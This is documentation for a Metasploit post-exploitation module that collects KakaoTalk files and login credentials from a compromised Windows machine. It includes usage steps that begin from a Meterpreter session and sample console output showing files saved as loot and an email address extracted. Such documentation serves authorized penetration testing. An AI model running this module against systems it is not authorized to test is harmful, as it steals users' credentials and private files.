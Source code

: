 ## Module Description

This post-exploitation module gathers artifacts found on KakaoTalk related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/kakaotalk
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/kakaotalk) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Kakao's parent folder found
[*] Kakao's Login_list.dat file found
[*] Downloading C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users\login_list.dat
[*] Kakao Login_list.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513053411_default_192.168.56.106_Kakaologin_list._899884.dat

[+] login_list|**********@gmail.com
[+] File with credentials saved:  /root/.msf4/loot/20210513053412_default_192.168.56.106_EXTRACTIONlogin__547610.dat
[*] Kakao's parent folder found
[*] Kakao's * file found
[*] Downloading C:\Users\IEUser\Documents\KakaoTalk Downloads\AppleEvent.pages
[*] Kakao Appleevent.pages downloaded
[+] File saved to:  /root/.msf4/loot/20210513053412_default_192.168.56.106_KakaoAppleEvent._605437.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```

### Verbose Output
  ```
msf6 post(windows/gather/kakaotalk) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Starting Packrat...
[*] Kakao's parent folder found
[*] Kakao's Login_list.dat file found
[*] Processing C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users
[*] Downloading C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users\login_list.dat
[*] Kakao Login_list.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513053709_default_192.168.56.106_Kakaologin_list._746567.dat

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] login_list|**********@gmail.com
[+] File with credentials saved:  /root/.msf4/loot/20210513053709_default_192.168.56.106_EXTRACTIONlogin__448569.dat
[*] Kakao's parent folder found
[*] Kakao's * file found
[*] Processing C:\Users\IEUser\Documents\KakaoTalk Downloads
[*] Downloading C:\Users\IEUser\Documents\KakaoTalk Downloads\AppleEvent.pages
[*] Kakao Appleevent.pages downloaded
[+] File saved to:  /root/.msf4/loot/20210513053709_default_192.168.56.106_KakaoAppleEvent._975441.bin

[-] This artifact does not support any extraction type
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

